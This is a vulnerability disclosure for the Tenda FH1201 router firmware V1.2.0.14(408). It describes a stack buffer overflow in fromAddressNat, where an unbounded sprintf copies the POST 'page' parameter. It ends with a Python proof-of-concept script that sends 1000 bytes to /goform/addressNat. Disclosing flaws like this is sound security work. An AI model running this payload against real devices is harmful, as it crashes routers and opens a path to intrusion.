 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3322.html

## Affected version

FH1201 Firmware  V1.2.0.14(408)

## Vulnerability details

The Tenda FH1201 Firmware  V1.2.0.14(408) has a stack overflow vulnerability located in the `fromAddressNat` function. This function accepts the `page` parameter from a POST request. The statement `sprintf(v5, "addressNatList.asp?page=%s", v3);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `v5` array, thus triggering this security vulnerability.

![image-20240731141131056](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240731141131056.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/addressNat"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240731133213595](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240731133213595.png)